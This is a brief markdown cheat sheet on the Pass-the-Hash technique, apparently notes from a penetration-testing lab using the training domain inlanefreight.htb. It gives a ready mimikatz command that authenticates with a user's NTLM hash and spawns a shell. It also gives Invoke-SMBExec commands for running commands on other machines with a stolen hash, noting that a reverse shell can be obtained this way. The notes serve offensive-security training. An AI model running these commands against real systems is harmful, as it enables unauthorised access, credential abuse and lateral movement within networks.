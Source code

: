-- -
Pass-the-Hash.
### Mimikatz
```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
### PowerShell
```powershell
# import the module
Import-Module .\Invoke-TheHash.psd1

# run command on other machine via smb
Invoke-SMBExec -Target <ip> -Domain <domain> -Username <usr> -Hash <hash> -Command <cmd to run> -Verbose

# you can get a reverse shell on the other machine by providing a cmd payload to above command.
```